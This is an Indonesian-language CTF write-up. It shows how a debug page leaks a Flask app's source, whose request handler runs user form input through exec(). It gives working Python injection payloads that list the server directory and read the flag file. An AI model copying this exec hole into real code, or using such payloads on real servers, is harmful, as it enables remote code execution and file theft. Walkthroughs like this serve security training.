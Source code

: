 # Kucing meong meong (50 Points)
http://ctf.serangkota.go.id:9972/
# Solved
<h3>Notice! Write-up ini bersifat spoiler, jika kalian sudah lelah menemukan dimana letah celahnya disarankan membaca write-up. akan tetapi jika belum berusaha sama sekali diharapkan di coba-coba dulu :D</h3>
CTRL + U pada website
```html

<!DOCTYPE html>
<head>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <meta name='author' content='makelaris'>
    <title>@jack&door</title>
    <link rel='stylesheet' href='//stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css' integrity='sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T' crossorigin='anonymous'>
    <link href='//fonts.googleapis.com/css?family=Comfortaa' rel='stylesheet' type='text/css'>
    <style>html, body {background-image: url('https://i.pinimg.com/originals/e8/79/73/e8797388136d93a8f102c61ccb758c45.jpg');} h1 {display: flex; justify-content: center; color: #6200ea; font-family: Comfortaa;}</style>
</head>
<body> 
	<img class='mx-auto d-block img-responsive' src='https://i.pinimg.com/originals/e8/0a/30/e80a305f17d0738341db0553a00c51d1.gif'>
	
	<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'>62</h1>
	
</body>
<!-- /debug -->
</html>
```
Kita menemukan angka acak dan ada salah satu komentar yaitu <b>/debug</b> yang mungkin menunjukkan untuk ke file debug mungkin :/, mari kita buka!<br>
Setelah kita akses kita mendapatkan source code dari website tersebut
```python
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garasi
	garasi = {}
	try: exec(recipe, garasi)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def organisasi(*args, **kwargs):
		bahan = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (bahan, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			bahan = request.form.get('bahan', '')
			recipe = '%s = %s' % (bahan, request.form.get('meteran', ''))

		calc(recipe)

		if garasi.get(bahan, ''):
			return render_template('index.html', calculations=garasi[bahan])

		return func(*args, **kwargs)
	return organisasi

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=5001)
```
Kita bisa lihat disini, ada code yang bernama <b>exec</b> yang mengijinkan kita untuk mengeksekusi script python kita sendiri melalui
```python
request.form.get('bahan','')
request.form.get('meteran', '')
```
Oke mari kita exploit!, ini adalah exploit yang saya gunakan untuk mendapatkan semua file yang berada di directory tersebut
```
bahan=a
meteran=[1]; import os; a.append([x for x in os.listdir("./")])
```
Hasil :
```html
<!DOCTYPE html>
<head>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <meta name='author' content='makelaris'>
    <title>@jack&door</title>
    <link rel='stylesheet' href='//stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css' integrity='sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T' crossorigin='anonymous'>
    <link href='//fonts.googleapis.com/css?family=Comfortaa' rel='stylesheet' type='text/css'>
    <style>html, body {background-image: url('https://i.pinimg.com/originals/e8/79/73/e8797388136d93a8f102c61ccb758c45.jpg');} h1 {display: flex; justify-content: center; color: #6200ea; font-family: Comfortaa;}</style>
</head>
<body>
    <img class='mx-auto d-block img-responsive' src='https://i.pinimg.com/originals/e8/0a/30/e80a305f17d0738341db0553a00c51d1.gif'>
    <h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'>[1, [&#39;requirements.txt&#39;, &#39;templates&#39;, &#39;aplikasi.py&#39;, &#39;flag&#39;]]</h1>
</body>
<!-- /debug -->
</html>
```
Kita bisa lihat bahwasannya ada file yang bernama <b>flag</b>, mari kita coba baca file tersebut menggunakan script ini
```
[1]; f = open("flag", "r"); a.append(f.read())
```
Boom! Flag muncul :D :v<br>
Flag : <b>DiskoCTF{my_F1rst_flask_4pp}</b>
